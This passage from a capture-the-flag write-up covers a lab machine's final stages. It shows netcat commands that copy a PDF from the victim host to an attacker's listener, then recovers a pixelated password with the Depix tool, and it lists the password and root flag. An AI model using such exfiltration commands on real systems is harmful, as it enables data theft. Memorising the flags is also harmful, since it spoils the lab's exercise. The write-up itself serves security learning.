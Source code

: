 Ok so for this one, let's exfil that pdf and see what's in it.

**Commands:**

```
On Host:

nc -lvnp 4444 > OpenVAS.pdf

On Victim:

nc -vn [IP] 4444 < 'Using OpenVAS.pdf'
```

**Results:**

![image](https://github.com/user-attachments/assets/dcfdd575-5587-4fc1-9e7f-b6dd2c9af629)

Anyways, now that we got that, let's read it.

![image](https://github.com/user-attachments/assets/719ddbf7-dabc-4481-950a-e4a8508ce690)

Welp, looks like the password's here, but it's pixelated. Let's see what we can do about that.

[**Take a look at this**](https://thehackernews.com/2022/02/this-new-tool-can-retrieve-pixelated.html)

Let's see if we can use that for our needs.

So the blog lists two open-source depixelating algorithms. I check _Unredacter_ first, but seems like it's a bit complicated to use. _Depix_ on the other hand seems fine to use, so let's go with that.

Don't forget to ```git clone``` the _Depix_ repo so we can use it.

![image](https://github.com/user-attachments/assets/198446a5-65a2-40d0-8f3e-dcba732922cb)

![image](https://github.com/user-attachments/assets/076782ec-ab40-48b9-b46e-9547478a2b19)

Ok so the first time around it didn't work. At this point, I was really sleep and couldn't really think about what went wrong, so I went to check another writeup to see if someone else had the same issue. It turns out,
the image must be so precise that there only the pixelated text is in view. I thought that'd be really hard, but apparently the writeup said that in the pdf viewer, you can right-click the image and it'll give the option
of saving it, so I went and did that too.

Let's see if it works this time.

![image](https://github.com/user-attachments/assets/a0a5e2a7-82ef-4416-ad00-a5f2397b9102)

![image](https://github.com/user-attachments/assets/435698f8-ff7e-4abb-b300-61482d2778bd)

I finally got it.

**Answer: sidefromsidetheothersidesidefromsidetheotherside**

## Root Flag

Ok, just use that password now and we good to go.

![image](https://github.com/user-attachments/assets/875e692e-66b7-472a-af90-6bafa125ec0a)

**Answer: 3dee4329b121cce3fc869583be87e596**
